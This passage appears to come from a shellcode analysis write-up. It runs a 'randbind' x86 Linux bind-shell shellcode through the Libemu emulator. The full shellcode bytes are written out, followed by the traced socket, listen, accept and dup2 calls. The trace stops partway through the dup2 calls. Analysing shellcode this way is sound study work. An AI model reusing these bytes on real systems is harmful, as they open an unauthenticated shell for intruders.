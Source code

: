 ![Screenshot](images/randbind/7.png)



### Libemu

In this case Libemu works correctly:

```bash
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" |  ./sctest -vvv -Ss 10000 -G randbind.dot
```

![Screenshot](images/randbind/4.png)

We get the next output:

```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000002 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
```